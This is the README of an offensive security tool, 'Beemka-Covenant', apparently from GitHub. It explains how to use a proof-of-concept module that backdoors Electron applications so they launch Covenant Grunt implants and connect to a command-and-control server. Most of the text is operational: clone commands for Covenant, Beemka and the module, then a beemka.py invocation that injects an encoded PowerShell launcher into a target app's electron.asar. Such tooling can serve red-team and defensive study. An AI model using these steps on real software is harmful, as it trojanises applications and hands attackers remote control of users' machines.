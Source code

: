 # Beemka-Covenant
Module for Beemka backdoor Electron app to launch Grunt implants and establishing connection with Covenant C2

This module is just a POC.

# How to use :  

* Configure Covenant :  
  `git clone https://github.com/cobbr/Covenant.git` and follow the instructions https://github.com/cobbr/Covenant
* Get Beemka :   
  `git clone https://github.com/ctxis/beemka.git` and follow the instructions https://github.com/ctxis/beemka :
* Clone Beemka-Covenant and copy files into Beemka :  
  `git clone https://github.com/PMain/Beemka-Covenant.git` and 
  `cp -r Beemka-Covenant/grunt_launcher <Path/to/Beemka/>/modules/`
  
Then copy the encoded command generated by the Covenant Powershell Launcher into a file and use :  
`python3 beemka.py -i -m grunt_launcher -f <Path/to/your/target/electron.asar> -o <Path/to/your/output>`

